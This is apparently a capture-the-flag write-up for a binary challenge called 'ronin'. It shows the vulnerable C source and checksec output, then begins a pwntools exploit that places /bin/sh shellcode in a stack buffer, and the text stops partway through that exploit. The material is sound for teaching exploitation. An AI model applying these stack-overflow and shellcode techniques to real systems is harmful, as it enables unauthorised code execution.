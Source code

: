 ```c
    int dir;
    while(1) {
        scanf("%d", &dir);
        if(dir > 3) {
            printf("Nice try, punk\n");
        } else {
            search(locs[dir], dir);
        }
    }
}

int main() {
    setvbuf(stdout, 0, 2, 0);

    scroll(txt[0]);
    char buf1[80];
    fgets(buf1, 80, stdin);
    if(strncmp("Chase after it.", buf1, 15) == 0) {
        scroll(txt[1]);
        chase();
    } else {
        scroll(txt[2]);
    }
}
```

There are some pretty obvious buffer overflows in here, but before we get ahead of ourselves lets check the binary for some security features. Modern compilers add protections by default and we can easily check them by running `checksec` (provided by `pwntools`) on the binary.

```bash
$ checksec ronin
[*] '/root/ctf/ronin/ronin'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

Looking pretty exploitable! There is no stack canary, so we can easily jump around wherever we want by buffer overflowing and overwriting the return address of whatever function we're in. RWX enabled means here that the stack is readable writable, and executable. Also, by reading the source code, we can see there is no `win` function to jump to. All of this together means that we will have to write shellcode to execute `/bin/sh`.

## Exploit
We know that we will need to put our shellcode somewhere, so lets find a buffer on the stack with some extra space. In the main function, such a buffer exists, where it reads in 80 bytes, but only needs the first 15. We'll use that to store our shellcode.
```c
fgets(buf1, 80, stdin);
if(strncmp("Chase after it.", buf1, 15) == 0)
    ...
```
```python
shellcode = asm(shellcraft.amd64.linux.sh())
log.info(f"{len(shellcode)=}")  # 48
r.sendline(b'Chase after it.' + shellcode)
```
